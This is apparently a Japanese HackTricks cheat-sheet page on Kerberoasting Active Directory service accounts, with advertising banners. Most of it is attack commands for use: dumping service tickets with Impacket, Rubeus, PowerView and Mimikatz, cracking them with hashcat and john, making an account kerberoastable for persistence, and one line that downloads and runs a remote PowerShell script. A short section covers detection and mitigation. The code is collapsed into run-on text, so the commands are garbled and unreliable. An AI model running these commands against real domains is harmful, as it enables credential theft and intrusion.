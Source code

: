 # Kerberoast

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks)を使用して、世界で最も**高度な**コミュニティツールによって**強化された** **ワークフローを簡単に構築**および**自動化**します。\
今すぐアクセスしてください：

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details>

<summary><strong>**htARTE（HackTricks AWS Red Team Expert）**で**ゼロからヒーローまでのAWSハッキング**を学びましょう！</strong></summary>

**HackTricksをサポートする他の方法：HackTricksで企業を宣伝したい場合やHackTricksをPDFでダウンロードしたい場合は、**[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)**をチェックしてください！**[**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)**を入手してください**[**The PEASS Family**](https://opensea.io/collection/the-peass-family)**を発見し、独占的な**[**NFTs**](https://opensea.io/collection/the-peass-family)**のコレクションを見つけてください💬** [**Discordグループ**](https://discord.gg/hRep4RUj7f)**または**[**telegramグループ**](https://t.me/peass)**に参加するか、Twitter 🐦** [**@carlospolopm**](https://twitter.com/hacktricks\_live)**をフォローしてください。HackTricksと**[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)**のgithubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。**

</details>

**KerberoastKerberoastingは、特にActive Directory（AD）内のユーザーアカウントで動作するサービスに関連するTGSチケットの取得に焦点を当てています。これにはコンピューターアカウントは含まれません。これらのチケットの暗号化には、ユーザーパスワードから派生したキーが使用され、オフライン資格情報のクラックの可能性があります。サービスとしてのユーザーアカウントの使用は、空でない\*\*"ServicePrincipalName"\*\*プロパティによって示されます。Kerberoastingを実行するには、TGSチケットを要求できるドメインアカウントが必要です。ただし、このプロセスには特権が必要ではなく、有効なドメイン資格情報を持つ誰でもアクセスできます。キーポイント：Kerberoastingは、AD内のユーザーアカウントサービス向けのTGSチケットを対象としています。ユーザーパスワードからのキーで暗号化されたチケットは、オフラインでクラックできます。サービスは、空でないServicePrincipalNameによって識別されます。特別な特権は必要ありません。単に有効なドメイン資格情報が必要です。攻撃Kerberoastingツールは通常、攻撃を実行し、TGS-REQリクエストを開始する際に\*\*`RC4暗号化`を要求します。これは、RC4が他の暗号化アルゴリズム（AES-128やAES-256など）よりも**[**弱い\*\***](https://www.stigviewer.com/stig/windows\_10/2017-04-28/finding/V-63795)**ため、Hashcatなどのツールを使用してオフラインで簡単にクラックできます。**\
**RC4（タイプ23）ハッシュは\*\*`$krb5tgs$23$*`で始まり、AES-256（タイプ18）は`$krb5tgs$18$*`\*\*で始まります。Linux**# Metasploit frameworkmsf> use auxiliary/gather/get\_user\_spns# ImpacketGetUserSPNs.py -request -dc-ip \<DC\_IP> \<DOMAIN.FULL>/\<USERNAME> -outputfile hashes.kerberoast # Password will be promptedGetUserSPNs.py -request -dc-ip \<DC\_IP> -hashes \<LMHASH>:\<NTHASH> \<DOMAIN>/\<USERNAME> -outputfile hashes.kerberoast# kerberoast: https://github.com/skelsec/kerberoastkerberoast ldap spn 'ldap+ntlm-password://\<DOMAIN.FULL>\\\<USERNAME>:\<PASSWORD>@\<DC\_IP>' -o kerberoastable # 1. Enumerate kerberoastable userskerberoast spnroast 'kerberos+password://\<DOMAIN.FULL>\\\<USERNAME>:\<PASSWORD>@\<DC\_IP>' -t kerberoastable\_spn\_users.txt -o kerberoast.hashes # 2. Dump hashes**Kerberoastableユーザーのダンプを含む複数の機能を持つツール:**# ADenum: https://github.com/SecuProject/ADenumadenum -d \<DOMAIN.FULL> -ip \<DC\_IP> -u \<USERNAME> -p \<PASSWORD> -c**WindowsKerberoast可能なユーザーを列挙する**# Get Kerberoastable userssetspn.exe -Q \*/\* #This is a built-in binary. Focus on user accountsGet-NetUser -SPN | select serviceprincipalname #Powerview.\Rubeus.exe kerberoast /stats**手法1: TGSを要求してメモリからダンプする**#Get TGS in memory from a single userAdd-Type -AssemblyName System.IdentityModelNew-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ServicePrincipalName" #Example: MSSQLSvc/mgmt.domain.local#Get TGSs for ALL kerberoastable accounts (PCs included, not really smart)setspn.exe -T DOMAIN\_NAME.LOCAL -Q \*/\* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $\_.Context.PostContext\[0].Trim() }#List kerberos tickets in memoryklist# Extract them from memoryInvoke-Mimikatz -Command '"kerberos::list /export"' #Export tickets to current folder# Transform kirbi ticket to johnpython2.7 kirbi2john.py sqldev.kirbi# Transform john to hashcatsed 's/\\$krb5tgs\\$\\(.\*\\):\\(.\*\\)/\\$krb5tgs\\$23\\$\\\*\1\\\*\\$\2/' crack\_file > sqldev\_tgs\_hashcat**テクニック2: 自動ツール**# Powerview: Get Kerberoast hash of a userRequest-SPNTicket -SPN "\<SPN>" -Format Hashcat #Using PowerView Ex: MSSQLSvc/mgmt.domain.local# Powerview: Get all Kerberoast hashesGet-DomainUser \* -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\kerberoast.csv -NoTypeInformation# Rubeus.\Rubeus.exe kerberoast /outfile:hashes.kerberoast.\Rubeus.exe kerberoast /user:svc\_mssql /outfile:hashes.kerberoast #Specific user.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap #Get of admins# Invoke-Kerberoastiex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module\_source/credentials/Invoke-Kerberoast.ps1")Invoke-Kerberoast -OutputFormat hashcat | % { $\_.Hash } | Out-File -Encoding ASCII hashes.kerberoast**TGSをリクエストすると、Windowsイベント`4769 - Kerberosサービスチケットが要求されました`が生成されます。**\
[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks)**を使用して、世界で最も高度なコミュニティツールによって強化されたワークフローを簡単に構築および自動化できます。**\
**今すぐアクセスしてください：クラッキング**john --format=krb5tgs --wordlist=passwords\_kerb.txt hashes.kerberoasthashcat -m 13100 --force -a 0 hashes.kerberoast passwords\_kerb.txt./tgsrepcrack.py wordlist.txt 1-MSSQLSvc\~sql01.medin.local\~1433-MYDOMAIN.LOCAL.kirbi**永続性ユーザーに十分な権限がある場合、それをKerberoastableにすることができます：**Set-DomainObject -Identity \<username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose**以下は、kerberoast 攻撃に役立つツールが見つかります:** [**https://github.com/nidem/kerberoast**](https://github.com/nidem/kerberoast)**Linux でこのエラーが発生した場合: `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`、それはローカル時間の問題です。ホストを DC と同期する必要があります。いくつかのオプションがあります:`ntpdate <DCのIP>` - Ubuntu 16.04 以降非推奨`rdate -n <DCのIP>`緩和策Kerberoasting は、悪用可能な場合に高い潜在性で実行される可能性があります。この活動を検出するためには、Security Event ID 4769 に注意を払う必要があります。これは、Kerberos チケットが要求されたことを示します。ただし、このイベントが頻繁に発生するため、疑わしい活動を分離するために特定のフィルタを適用する必要があります:サービス名が krbtgt であってはならず、これは通常の要求です。$ で終わるサービス名は除外して、サービスに使用されるマシンアカウントを含めないようにします。マシンからの要求は、machine@domain という形式のアカウント名を除外することでフィルタリングされるべきです。失敗コードが '0x0' で識別される成功したチケット要求のみを考慮すべきです。最も重要なのは、チケットの暗号化タイプが 0x17 である必要があります。これは、Kerberoasting 攻撃でよく使用されます。**Get-WinEvent -FilterHashtable @{Logname='Security';ID=4769} -MaxEvents 1000 | ?{$\_.Message.split("\`n")\[8] -ne 'krbtgt' -and $\_.Message.split("\`n")\[8] -ne '\*$' -and $\_.Message.split("\`n")\[3] -notlike '\*$@\*' -and $\_.Message.split("\`n")\[18] -like '\*0x0\*' -and $\_.Message.split("\`n")\[17] -like "\*0x17\*"} | select ExpandProperty message**Kerberoastリスクの軽減：サービスアカウントのパスワードが推測困難であることを確認し、25文字以上の長さを推奨します。管理されたサービスアカウントを利用し、自動パスワード変更や委任されたサービスプリンシパル名（SPN）管理などの利点を提供し、このような攻撃に対するセキュリティを向上させます。これらの対策を実施することで、組織はKerberoastingに関連するリスクを大幅に軽減できます。ドメインアカウントなしのKerberoast2022年9月に、研究者であるCharlie Clark氏によって新しいシステムの悪用方法が明らかにされ、彼のプラットフォーム**[**exploit.ph**](https://exploit.ph/)**を通じて共有されました。この方法では、KRB\_AS\_REQリクエストを介してサービスチケット（ST）を取得することが可能であり、これによりいかなるActive Directoryアカウントの制御も必要としません。基本的に、プリンシパルが事前認証を必要としないように設定されている場合、サイバーセキュリティ領域で知られるAS-REP Roasting攻撃と似たシナリオが発生し、この特性を利用してリクエストプロセスを操作することができます。具体的には、リクエストの本文内のsname属性を変更することで、システムは標準の暗号化されたチケット発行チケット（TGT）ではなくSTを発行するように騙されます。この技術についての詳細は、この記事で完全に説明されています：**[**Semperisブログ投稿**](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/)**。この技術を使用してLDAPをクエリするための有効なアカウントがないため、ユーザーのリストを提供する必要があります。Linux**[**impacket/GetUserSPNs.py from PR #1413**](https://github.com/fortra/impacket/pull/1413)**:**GetUserSPNs.py -no-preauth "NO\_PREAUTH\_USER" -usersfile "LIST\_USERS" -dc-host "dc.domain.local" "domain.local"/**Windows**[**GhostPack/Rubeus from PR #139**](https://github.com/GhostPack/Rubeus/pull/139)**:**Rubeus.exe kerberoast /outfile:kerberoastables.txt /domain:"domain.local" /dc:"dc.domain.local" /nopreauth:"NO\_PREAUTH\_USER" /spn:"TARGET\_SERVICE"**参考文献**[**https://www.tarlogic.com/blog/how-to-attack-kerberos/**](https://www.tarlogic.com/blog/how-to-attack-kerberos/)[**https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting)[**https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled)\
[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks)**を使用して、世界で最も高度なコミュニティツールによってパワードされたワークフローを簡単に構築および自動化します。**\
**今すぐアクセスを取得：**
